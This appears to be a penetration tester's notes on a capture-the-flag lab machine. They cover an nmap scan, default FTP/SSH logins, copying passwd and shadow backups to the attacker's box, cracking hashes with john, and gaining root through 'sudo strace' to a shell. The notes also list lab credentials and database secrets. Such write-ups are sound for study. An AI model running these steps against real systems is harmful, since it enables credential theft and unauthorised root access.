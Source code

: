 nmap scan 
nmap -p- -sV -sC -Pn 192.168.102.110 --open
port 21 ftp enabled
tried with anonymous not allowed
tried with ftp ftp, successful
empty ftp
no permission to upload
gobuster common
gobuster big
tried ssh with ftp ftp
got local flag
sudo -l for ftp nothing
uploaded linpeas
linpeas indicated passwd and backup file in /mnt/backup/etc
copied hashes of root lisa and ftp to kali in passwd.txt and shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt 
used john with rockyou.txt for cracking hashes
got password of lisa
ssh with lisa credentials
sudo -l
strace gtfobins 
sudo strace -o /dev/null /bin/sh
got root










	
	21
		uname - ftp
		pass - ftp
		but nothing after, hangs, no output
			got it, but ftp is empty, probably for file upload and accessing through web or maybe there is another ftp user
			permission denied for uploading files on ftp
			
		
	22
		ssh with ftp/ftp successfull
	53 domain
	80
		blank home page
		Apache 2.4.52 ubuntugobuster with common, big and medium no results
	Privesc
		3306 on localhost
			APP_KEY=base64:yN/2x7bTc/KG/T0BZvL8s1W4N4+Y87PXRvJm8iPWzE=
			APP_DEBUG=true
			APP_URL=http://localhost
			DB_CONNECTION=mysql
			DB_HOST=127.0.0.1
			DB_PORT=3306
			DB_DATABASE=creds
			DB_USERNAME=root
			DB_PASSWORD=Strong.DB?Password

		users clay, lisa
		/home/lisa/.bash_history
		/home/lisa/.mysql_history
		/mnt/backup/etc/adduser.conf
		passwd and shadow file /mnt/backup/etc
		scp /mnt/backup/etc/passwd kali@192.168.49.102:.
		john --wordlist=/usr/share/wordlists/rockyou.txt unshade.txt --format=crypt
		lisa peanut.
		sudo -l
		sudo strace -o /dev/null /bin/sh





